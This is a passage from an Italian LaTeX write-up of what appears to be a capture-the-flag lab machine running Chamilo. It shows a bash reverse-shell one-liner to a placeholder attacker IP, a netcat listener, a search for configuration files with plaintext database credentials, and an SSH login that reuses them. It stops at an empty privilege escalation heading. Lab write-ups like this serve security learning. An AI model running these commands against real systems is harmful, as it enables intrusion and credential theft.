 \documentclass[a4paper,11pt]{article}
\begin{document}
\begin{lstlisting}
#!/bin/bash
bash -i >& /dev/tcp/<ATTACKER_IP>/<PORTA> 0>&1
\end{lstlisting}

Listener lato attaccante:

\begin{lstlisting}
nc -lvnp 4444
\end{lstlisting}

Una volta eseguito il payload, si ottiene accesso come utente \texttt{www-data}.

\section{Post-Exploitation}

\subsection{Ricerca credenziali}

Si procede con l'enumerazione del filesystem alla ricerca di file di configurazione:

\begin{lstlisting}
find /var/www/chamilo -name configuration*
\end{lstlisting}

Nel file principale vengono trovate credenziali del database in chiaro.

\subsection{Accesso via SSH}

Dalle directory home emerge l'utente \texttt{mtz}.  
Provando le credenziali ottenute, si riesce ad accedere via SSH:

\begin{lstlisting}
ssh mtz@10.10.11.23
\end{lstlisting}

Accesso riuscito.

\section{Privilege Escalation}

\subsection{Verifica privilegi sudo}
\end{document}
